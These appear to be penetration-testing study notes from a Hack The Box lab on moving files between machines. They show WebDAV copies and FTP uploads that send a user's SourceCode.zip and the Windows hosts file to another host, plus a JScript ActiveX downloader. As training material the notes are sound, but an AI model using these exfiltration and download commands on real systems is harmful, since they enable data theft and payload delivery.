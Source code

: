 %% Note: DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.1.101\[folder_name]
%%

```powershell
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.1.101\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.1.101\sharefolder\
```


## FTP Uploads
```sh
python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.1.101/hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

**Create a Command File for the FTP Client to Upload a File**
```sh
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

---
# Transfer Files with Code
1) **JavaScript**
```js
// Create a file called "wget.js"
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
```powershell
C:\htb> cscript.exe /nologo wget.js [URL] [Output Filename]
```
